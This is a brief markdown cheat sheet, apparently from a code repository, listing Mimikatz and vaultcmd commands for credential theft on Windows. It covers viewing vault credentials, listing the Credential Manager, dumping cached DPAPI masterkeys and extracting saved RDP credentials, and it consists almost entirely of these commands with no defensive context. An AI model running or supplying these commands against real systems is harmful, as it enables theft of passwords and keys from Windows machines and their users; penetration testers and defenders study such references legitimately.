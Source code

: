 # Mimikatz

## 01 - View Credentials

```
mimikatz # vault::cred
```

## 02 - List Vault

```
C:\> vaultcmd /listcreds:"Windows Credentials" /all

mimikatz # vault::list
```

## 03 - List Credentials Manager

```
mimikatz # sekurlsa::credman
```

## 04 - List Cached Masterkeys

```
mimikatz # sekurlsa::dpapi
```

## 05 - Extracting Saved RDP Credentials

```
mimikatz # ts::mstsc
```